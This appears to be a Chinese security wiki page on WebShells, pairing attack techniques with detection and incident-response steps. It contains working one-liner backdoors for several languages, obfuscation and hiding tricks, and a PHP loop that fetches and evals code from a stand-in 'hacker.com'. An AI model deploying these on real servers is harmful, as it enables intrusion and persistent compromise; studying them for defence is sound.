

## 核心概念

> **定义**：WebShell 就是以 ASP、PHP、JSP 或 CGI 等网页文件形式存在的一种命令执行环境，也可以将其称做为一种**网页后门**。  
> —— 百度百科 / 唯品会安全应急响应中心

### 典型使用场景

- 发现并利用了网站漏洞（如文件上传、代码执行、反序列化等）
- 拿到 Web 权限但无系统权限，需进一步提权或横向移动
- 希望下一次能**优雅地**复用访问通道，避免重复利用漏洞

> **作者注**：“差不多我人生第一次真正意义上拿下一个网站，依靠的是雷傲 BBS 的一个上传漏洞。在一个 CGI 后门 `cmd.cgi` 的帮助下，我最终拿到了系统管理员权限。”

## 主要功能分类

| 功能类别 | 说明 | 典型实现 |
|----------|------|----------|
| **环境探针** | 获取服务器软件版本、路径、权限、组件支持等信息 | `phpinfo()`、`asp` 枚举 `ServerVariables`、`jsp` 获取 `System.getProperty` |
| **资源管理** | 文件/目录的浏览、上传、下载、删除、重命名、编辑 | 文件管理器界面、虚拟终端 |
| **文件编辑** | 在线修改脚本、配置文件、模板等 | 代码编辑器组件 |
| **执行 OS 命令** | 调用脚本内部函数执行系统 Shell 命令 | PHP `system/exec/shell_exec/passthru/proc_open`、ASP `WScript.Shell`、JSP `Runtime.getRuntime().exec()` |
| **读取注册表** | Windows 环境下枚举注册表键值 | ASP/VBS `WScript.Shell.RegRead`、PHP `com_dotnet` 扩展 |
| **创建 Socket** | 正向/反向连接、端口转发、SOCKS 代理 | PHP `fsockopen/stream_socket_client`、JSP `Socket`、ASP `ADODB.Stream` |
| **调用系统组件** | 调用 COM、WMI、.NET 程序集、Java 类库等 | ASP `CreateObject`、PHP `com`/`dotnet`、JSP 反射加载类 |

> **执行命令示例**：  
> `http://www.example.com/cmd.php?cmd=cat /etc/passwd`

## 扩展功能（实战杀伤链）

| 扩展能力 | 说明 | 关联实战页面 |
|----------|------|--------------|
| **权限提升** | 从 Web Server 权限（IIS/Apache/Nginx）提升至 System/Root | [[backdoor-persistence-techniques]]、[[xd-security-privilege-escalation-notes-day58-64]] |
| **DDoS 僵尸节点** | 利用服务器带宽/算力发起攻击，替代传统客户端木马 | — |
| **网页挂马 / 黑帽 SEO** | 篡改页面植入恶意 JS、针对爬虫劫持、刷流量/窃 Cookie | [[xss-haozi-lab-walkthrough]]、[[xd-security-xss-vulnerability-notes-day25-28]] |
| **代理服务器 / 跳板** | IDC 机房出口带宽优势，作内网穿透、海外资源访问代理 | [[frp内网渗透应用]]、[[pystinger-socks4-proxy-webshell-pivoting]]、[[http-proxy-tunneling-goproxy-netsh]] |
| **端口扫描 / 内网探测** | 利用 WebShell 为跳板扫描内网存活主机、服务、数据库、LDAP | [[xd-security-internal-network-penetration-notes-day65-66]]、[[iot-reconnaissance-information-gathering]] |
| **凭证窃取 / 横向移动** | 读取配置文件、数据库连接串、内存凭证，配合 SMB/WMI/RDP 横向 | [[shiro-internal-penetration-case-study]]、[[listed-company-penetration-test-case-study]]、[[mimikatz-sekurlsa-pth-internals]] |

> **一句话总结**：WebShell 的强大功能，完全取决于你的想象力！

## 基于功能强弱的分类体系

```mermaid
mindmap
  root((WebShell 分类))
    全功能型
      特征: 代码量大、功能全、字符串特征明显、易被查杀
      代表: 中国菜刀、蚁剑、哥斯拉、C99、R57
    资源管理型
      别名: 站长管理工具
      场景: 合法运维、恶意文件操作
    命令执行型
      特征: 单一功能、体积小、参数化执行
      示例: cmd.php?cmd=whoami
    上传型(中继器/小马)
      目的: 突破上传大小/类型限制，落地“大马”
      技巧: 仅提供写文件能力
    一句话型
      特征: 极短、无特征函数名、配合客户端动态传递代码
      典型: <?php @eval($_POST['x']);?> / <%execute(request("x"))%> / <%@ page import="java.io.*" %><% Runtime.getRuntime().exec(request.getParameter("x"));%>
```

### 跨语言一句话对照表

| 语言 | 一句话示例 | 连接客户端 |
|------|------------|------------|
| **PHP** | `<?php @eval($_POST['cmd']);?>` | 蚁剑、中国菜刀、哥斯拉 |
| **ASP** | `<%execute(request("cmd"))%>` | 中国菜刀、HaiTop |
| **ASPX** | `<%@ Page Language="Jscript"%><%eval(Request.Item["cmd"]);%>` | 冰蝎、哥斯拉、蚁剑 |
| **JSP** | `<%@ page import="java.io.*" %><% Runtime.getRuntime().exec(request.getParameter("cmd"));%>` | Behinder、Godzilla、冰蝎 |
| **CGI (Python/Perl/Shell)** | `#!/usr/bin/python\nimport os,sys;os.system(sys.argv[1])` | 通用 HTTP 客户端 |

> **关联页面**：[[php-webshell-fundamentals-chopper-analysis]] 深度解析 PHP 一句话原理、蚁剑/菜刀/哥斯拉流量特征、持久化技术（`.user.ini`/`.htaccess`/PHAR）；[[php-webshell-obfuscation-av-evasion]] 覆盖 C++ 多态混淆、GBByPass Unicode 编码绕过阿里云/360/火绒；[[php-non-alphanumeric-webshell-construction]] 讲解异或/取反/字符自增构造无字母数字马。

## WebShell 检测思路（蓝视角）

### 四大核心检测维度

| 检测维度 | 原理 | 优势 | 局限 | 代表工具/方案 |
|----------|------|------|------|---------------|
| **关键字/特征匹配** | 正则/签名库匹配 `eval`、`assert`、`WScript.Shell`、`Runtime.exec` 等 | 部署简单、覆盖已知变种 | 易绕过（混淆、编码、分离）、误报高 | 传统 WAF、杀毒软件、河马/WEBDIR+、D盾 |
| **文件完整性监控 (FIM)** | 定期扫描 Web 目录，对比 MD5/SHA256、时间戳、权限变化 | 能发现零日/无特征后门、无需特征库 | 需建立基线、频繁变更目录噪音大 | Tripwire、OSSEC、AIDE、商业主机防护 |
| **运行时行为分析 (RASP/IAST/HIDS)** | Hook 危险函数、监控进程创建、网络连接、文件落地 | 动态上下文感知、绕过静态混淆 | 性能开销、需插桩/内核模块 | OpenRASP、百度云镜、云锁、阿里云云盾、腾讯云主机安全 |
| **流量/日志异常检测** | 分析访问日志：非工作时间、高频脚本访问、异常 User-Agent、POST 无 Referer、响应码 200 但体积异常 | 无需部署 Agent、覆盖全站 | 加密流盲区、需大量基线训练 | ModSecurity + 机器学习、ELK 告警、Nginx Lua WAF |

> **推荐**：ModSecurity 开源 WAF 能有效拦截 Web 攻击及 WebShell 请求响应特征。  
> **关联页面**：[[security-incident-response-webshell-case-study]] 详细记录 301在路上归档文章《WebShell应急响应实战讨论》，将外部报告 WebShell 入侵拆解为**确认属实 → 封禁溯源 → 漏洞修复 → 影响评估 → 外部沟通 → 复盘报告**六阶段标准化流程，融合 11 位从业者实战视角。

### 检测规避技术全景（红视角）



#### 静态特征消除

| 技术 | 示例 | 说明 |
|------|------|------|
| **变量拼接函数名** | `$a='as';$b='sert';$c=$a.$b;$c($_POST['x']);` | 绕过 `assert` 关键字匹配 |
| **编码/加密 Payload** | `eval(gzinflate(base64_decode('...')));` | 配合客户端自动编码 |
| **文件包含分离 (图片马)** | `xx.jpg` 内含 PHP 代码 → `include('xx.jpg');` | 结合上传白名单绕过 |
| **NTFS 交替数据流 (ADS)** | `echo ^<?php eval($_POST[x]);?^> > test.php:hidden.txt` | 资源管理器不可见、`dir /r` 可见 |
| **不可见文件名** | 全角空格、`..`、`. `、Unicode 控制字符 | 绕过 `ls`/`dir` 视觉检查 |
| **HTTP Head/Cookie 传参** | `eval($_SERVER['HTTP_X_CMD']);` | 避开 Body 检测、WAF 规则 |
| **数据库存储代码** | `eval($row['shell_code']);` | 文件无特征、需审计 DB |

> **关联页面**：[[php-webshell-obfuscation-av-evasion]] 系统实现两阶段混淆（算术表达式拆分 + XOR 拆分特征函数），支持时间种子多态输出；[[upload-labs-file-upload-bypass-writeup]] 复现 19 关上传绕过（前端 JS、Content-Type、黑白名单、.htaccess、%00 截断、条件竞争等），直击“小马”落地全链路。

#### 请求响应分离 / 无文件落地 / 长驻内存

**核心时序**（原文架构图）：
1. 攻击者访问 `loader.php`（一次性、无特征）
2. `loader.php` 向 `hacker1.com` 请求真实 Payload
3. Payload 在内存中 `eval` 执行，**不落地**
4. Payload 主动向 `hacker2.com` 回传结果 / 持久化监听
5. 全程 Web 日志仅见一次合法的 `loader.php` 访问

**PHP 死循环长驻实现**：

```php
<?php
ignore_user_abort(true);      // 忽略客户端断开
set_time_limit(0);            // 无限执行时间
$interval = 60;               // 轮询间隔(s)
do {
    $code = file_get_contents('http://hacker.com/task?id='.get_client_id());
    if ($code) eval($code);
    sleep($interval);
} while (true);
?>
```

> **关键点**：只要 Apache/Nginx 不重启，Shell 永久在线，且**无任何后续 HTTP 请求特征**，完全绕过访问行为审计。

**任务分发平台化**：
- 每个 Shell 分配唯一 `client_id`
- 管理端下发差异化任务：执行代码、集中 DoS、刷票、挖矿、内网扫描、横向移动
- 实现“批量僵尸网络化”运营

> **关联页面**：[[aiiod-awd-framework-analysis]] 深度解析 AWD 框架中 `WebShell/SSH/BindShell` 统一连接器体系、基于 epoll 与线程的交互式 Shell 基类、流量混淆装饰器设计；[[backdoor-persistence-techniques]] 系统梳理 Web 类、系统类、容器类、扩展类、软件类、日志隐匿、流量加密七大类持久化技术。

## 高级攻防技巧与实战延伸

### 三大监测环节与对抗矩阵

| 监测环节 | 蓝队手段 | 红队对抗 | 典型工具/页面 |
|----------|----------|----------|---------------|
| **文件特征** | 静态扫描、YARA、FIM | 混淆、分离、ADS、数据库存储、内存马 | [[php-webshell-obfuscation-av-evasion]]、[[struts2-memory-shell-injection]]、[[dotnet-objectdataprovider-deserialization-gadget]] |
| **请求特征** | WAF 规则、ModSecurity、流量基线 | HTTP Head/Cookie 传参、加密流量 (AES/XOR)、域名前置、重定向器 | [[cobalt-strike-ssl-keystore-evasion]]、[[c2-redirectors-malleable-c2-profiles]]、[[php-webshell-fundamentals-chopper-analysis]] (哥斯拉 AES 加密) |
| **响应特征** | 响应体关键字、长度异常、错误回显 | 分离响应（结果外带 DNS/HTTP/TCP）、编码压缩、伪装正常页面 | [[mysql-dnslog-injection-loadfile-unc]]、[[pystinger-socks4-proxy-webshell-pivoting]] |

### 内存马 与 无文件后门演进

| 技术 | 语言/框架 | 核心原理 | 关联页面 |
|------|-----------|----------|----------|
| **Struts2 内存马** | Java/Struts2 | OGNL 注入 → 获取正确 ClassLoader → 动态注册 ActionConfig/Interceptor → 无文件落地 | [[struts2-memory-shell-injection]] |
| **Spring/Filter/Interceptor/Listener 内存马** | Java/Spring | 利用 `StandardContext` 动态添加 Servlet/Filter、注册 Listener、注入 Interceptor | — |
| **Tomcat Valve/Filter 驻留** | Java/Tomcat | 修改 `Pipeline` 插入恶意 Valve、全局 Filter | — |
| **PHP `.user.ini`/`.htaccess`/PHAR 反序列化** | PHP | 自动包含配置文件、伪协议触发反序列化、实现无文件持久化 | [[php-webshell-fundamentals-chopper-analysis]] |
| **.NET 反序列化 Gadget → WebShell** | .NET/WPF | `ObjectDataProvider`/`XmlSerializer`/`ExpandedWrapper` 链 → `Process.Start` 执行命令 | [[dotnet-objectdataprovider-deserialization-gadget]]、[[dotnet-xmlserializer-expandedwrapper-deserialization-gadget]] |
| **Redis/Linux 计划任务/SSH Key 落地** | 通用 | 未授权 Redis `config set dir` 写 crontab/authorized_keys/webshell | [[redis-unauthorized-access-rce]] |

### 从 WebShell 到完整攻击链的实战案例索引

| 入口漏洞 | 落地 WebShell | 后续利用 | 完整复现页面 |
|----------|---------------|----------|--------------|
| CNVD-2021-49104 E-Office 任意文件上传 | 哥斯拉 PHP XOR 加密马 | 内网代理、横向移动 | [[cnvd-2021-49104-eoffice-v9-file-upload-rce]] |
| WordPress 后台弱口令 + 主题编辑器 | PHP Meterpreter / 一句话 | 提权、凭证导出、SMB 横向 | [[vulnhub-admx-new-writeup]]、[[ctf-smb-wordpress-meterpreter-writeup]] |
| Shiro 反序列化 RCE (CVE-2016-4437) | 冰蝎/哥斯拉 动态加密马 | 火绒免杀上线 CS、NTLM 导出、FTP 横向、溯源前置攻击者 | [[shiro-internal-penetration-case-study]] |
| Log4j2 JNDI 注入 (Log4Shell) | 内存执行 / 落地 JSP/WebShell | 反弹 Shell、权限维持、供应链影响 | [[log4j2-rce-reproduction]] |
| ThinkPHP 5.0.x 反序列化 / RCE | 蚁剑连接 PHP 一句话 | 内网穿透、提权 | [[thinkphp5-deserialization-chain-analysis]]、[[attack-defense-world-master-advanced-writeup]] |
| 文件上传绕过 (Upload-Labs 19 关) | 各类小马/大马 | 条件竞争、解析漏洞、.htaccess、图片马 | [[upload-labs-file-upload-bypass-writeup]] |
| Redis 未授权 + crontab/SSH Key | 无文件 / 写 authorized_keys | 反弹 Shell、提权 | [[redis-unauthorized-access-rce]] |

## 检测与溯源实战清单（蓝队视角）

> 基于 [[security-incident-response-webshell-case-study]] 标准化流程补充技术细节：

| 阶段 | 关键动作 | 工具/命令 | 产出物 |
|------|----------|-----------|--------|
| **1. 确认属实** | 验证告警真实性、判断 WebShell 类型、评估影响范围 | `grep -r "eval\|assert\|system\|exec" /var/www --include="*.php"`<br>`find /var/www -mtime -7 -type f -name "*.php" -o -name "*.jsp" -o -name "*.asp"`<br>YARA 规则扫描、WEBDIR+、D盾、河马 | 确认报告、受影响资产清单 |
| **2. 封禁溯源** | 隔离主机/断网、保留现场、提取镜像/内存、分析访问日志 | `tcpdump -i eth0 -w capture.pcap`<br>`dumpit.exe / Volatility / WinPMEM`<br>Nginx/Apache/IIS 访问日志分析：`awk '$9~/\.php|\.jsp|\.asp/ && $10==200' access.log` | 取证镜像、流量包、攻击者 IP/UA/路径/时间轴 |
| **3. 漏洞修复** | 定位入口漏洞（上传、反序列化、代码执行、弱口令）、修补代码/配置、WAF 虚拟补丁 | 代码审计、补丁升级、禁用危险函数 (`disable_functions`)、`open_basedir` 限制、上传目录禁止执行 | 修复记录、回归测试报告 |
| **4. 影响评估** | 敏感数据泄露排查、横向移动痕迹、权限提升证据、持久化机制枚举 | 检查 `crontab`、`systemd`、`/etc/passwd`、`authorized_keys`、注册表 `Run` 键、计划任务、WMI 订阅、启动项、服务、驱动 | 影响评估报告、数据泄露清单 |
| **5. 外部沟通** | 向监管/客户/合作方通报、配合执法取证、对外公告 | 法务配合、SRC 流程、公关口径 | 通报记录、监管回执 |
| **6. 复盘报告** | 攻击链复盘、根因分析、检测盲区、改进措施、应急预案更新 | 时间线梳理、MITRE ATT&CK 映射、规则补全、演练计划 | 复盘报告、规则库更新、预案版本 |

## 跨语言 WebShell 特征对比速查

| 特征维度 | **PHP** | **ASP/ASPX** | **JSP** | **CGI (Python/Perl/Shell)** |
|----------|---------|--------------|---------|-----------------------------|
| **危险函数** | `eval/assert/system/exec/shell_exec/passthru/proc_open/popen/pcntl_exec` | `execute/executeGlobal/eval/WScript.Shell/ADODB.Stream` | `Runtime.exec/ProcessBuilder/ScriptEngineManager` | `os.system/subprocess.Popen/commands.getstatusoutput/eval/exec` |
| **一句话模板** | `<?php @eval($_POST[x]);?>` | `<%execute(request("x"))%>` | `<% Runtime.getRuntime().exec(request.getParameter("x"));%>` | `#!/usr/bin/python\nimport os;os.system(sys.argv[1])` |
| **典型客户端** | 蚁剑、菜刀、哥斯拉、冰蝎 | 菜刀、HaiTop、冰蝎 | Behinder、Godzilla、冰蝎、JSPShell | 通用 HTTP 客户端、自定义脚本 |
| **加密流量** | 哥斯拉 AES、冰蝎 AES、蚁剑编码器 | 冰蝎 AES、哥斯拉 AES | 冰蝎 AES、Godzilla AES、Behinder 自定义 | 通常明文或自建加密 |
| **持久化奇技** | `.user.ini` `auto_prepend_file`、`.htaccess` `php_value`、PHAR 反序列化、`opcache` 劫持 | `Global.ashx`、`HttpModule`、IIS 模块注入、`web.config` 注入 | `Filter`/`Listener`/`Servlet` 动态注册、Tomcat Valve、Agent `premain` | `crontab`、`systemd`、`.bashrc`、`/etc/rc.local`、SSH Key |
| **检测重点** | `disable_functions` 绕过、`open_basedir` 绕过、GD 库绕过、PCNTL 绕过 | `Request` 对象注入、COM 组件滥用、反序列化 (ViewState) | 反序列化 (ysoserial)、内存马、JNI/JNA 调用 | 进程树异常、计划任务、SUID/SGID、容器逃逸 |

## 交叉引用导航（知识库内链）

### 基础原理与入门
- [[php-webshell-fundamentals-chopper-analysis]] — PHP 一句话核心原理、蚁剑/菜刀/哥斯拉流量解析、Content-Type 绕过上传、持久化四大技术
- [[php-non-alphanumeric-webshell-construction]] — 非字母数字马三大构造技术（异或/取反/自增）
- [[php-file-inclusion-vulnerability]] — LFI/RFI/伪协议利用链，常用于包含图片马/日志马
- [[php伪协议与反序列化利用]] — `php://filter`/`php://input`/`data://`/`phar://` 综合利用
- [[upload-labs-file-upload-bypass-writeup]] — 19 关上传绕过全复现，直击“小马”落地实战

### 混淆免杀与对抗
- [[php-webshell-obfuscation-av-evasion]] — C++ 两阶段多态混淆、GBByPass Unicode 绕过阿里云/360/火绒
- [[backdoor-persistence-techniques]] — 七大类持久化技术体系（Web/系统/容器/扩展/软件/日志/流量）
- [[aiiod-awd-framework-analysis]] — AWD 框架 WebShell/SSH/BindShell 统一连接器、epoll 交互式 Shell、流量混淆装饰器
- [[cobalt-strike-ssl-keystore-evasion]] — CS 证书重签名对抗指纹识别
- [[c2-redirectors-malleable-c2-profiles]] — 重定向器拓扑、Malleable C2 Profile、域名前置/CDN 隐匿

### 内存马与无文件后门
- [[struts2-memory-shell-injection]] — Struts2 OGNL 注入动态注册 Action/Interceptor，ClassLoader 隔离突破
- [[dotnet-objectdataprovider-deserialization-gadget]] — .NET WPF ObjectDataProvider 链 → Process.Start WebShell 变种
- [[dotnet-xmlserializer-expandedwrapper-deserialization-gadget]] — XmlSerializer ExpandedWrapper → ObjectDataProvider/XamlReader RCE
- [[aceldr-technical-analysis]] — PE 不落地执行三大类（反射式加载/Section 相关/镂空傀儡），Sysmon Event ID 25 检测对抗

### 实战攻击链复现
- [[cnvd-2021-49104-eoffice-v9-file-upload-rce]] — FOFA 资产测绘 → Burp 构造 multipart → 哥斯拉 XOR 马落地
- [[shiro-internal-penetration-case-study]] — Shiro RCE → 火绒免杀上线 CS → NTLM 导出 → FTP 横向 → 溯源前置攻击者
- [[vulnhub-admx-new-writeup]] — WordPress 弱口令 → 插件上传 Getshell → Python 反弹 → MySQL UDF 提权
- [[ctf-smb-wordpress-meterpreter-writeup]] — SMB 空会话 → WP 凭证 → 主题编辑器上传 PHP Meterpreter → 提权
- [[redis-unauthorized-access-rce]] — 三大利用链：写 WebShell / SSH Key / 计划任务反弹 Shell
- [[log4j2-rce-reproduction]] — Log4Shell JNDI 注入 → DNSLog 验证 → 反弹 Shell → 权限维持

### 应急响应与溯源
- [[security-incident-response-webshell-case-study]] — 301在路上归档，六阶段标准化流程 + 11 位从业者多视角解答
- [[xd-security-incident-response-notes]] — Day71-75 应急响应标准流程、日志分析、WebShell 查杀、自动化工具箱
- [[threat-attribution-tracing-techniques]] — IP 定位、钓鱼邮件反查、VPS 渗透溯源、样本沙箱、主机入侵痕迹、流量回溯、反溯源对抗 (CIA Vault 7)

### 红队基础设施与隧道
- [[frp内网渗透应用]] — frp Socks5/多级隧道/代理 MSF 反弹/RDP 转发
- [[pystinger-socks4-proxy-webshell-pivoting]] — Web 目录部署 proxy.php + stinger_server/client 建立 SOCKS4 代理
- [[http-proxy-tunneling-goproxy-netsh]] — goproxy + netsh portproxy + CS HTTP Listener 不出网上线
- [[internal-network-pivoting-techniques]] — 0x727 Aggressor Script: atexec/PrintSpooler/FRP/SpawnReflectiveC2

## 结语

WebShell 作为“网页后门”的代名词，贯穿了 Web 攻防的全生命周期：从**漏洞利用落地**、**持久化免杀**、**命令控制与数据外带**，到**内网横向移动**、**权限提升**、**流量隐匿与对抗溯源**。其技术演进始终围绕**“特征对抗”**与**“行为对抗”**两条主线：

- **静态对抗**：混淆、加密、分离、不落地、内存马、数据库存储、ADS/不可见文件名
- **动态对抗**：请求响应分离、死循环长驻、加密通道 (AES/XOR/TLS)、域名前置/CDN/重定向器、任务分发平台化

防御侧需构建**“文件完整性基线 + 运行时行为分析 (RASP/EDR) + 流量异常检测 (ML/WAF) + 应急响应标准化流程”**纵深体系，并持续跟踪**内存马、无文件后门、供应链投毒**等前沿攻击面。

> **原文作者**：唯品会安全应急响应中心  
> **归档来源**：301在路上微信公众号《那些年黑客用过的WebShell之技术总结》  
> **PPT 下载**：回复『webshell』获取（原文提示）

---

> **维护提示**：本页面将持续跟踪知识库内 WebShell 相关新增页面（如新型内存马、免杀框架、实战复现），请定期检查交叉引用区更新。

## 来源

- [301在路上-201508-202208_146](../sources/301在路上-201508-202208_146.md)
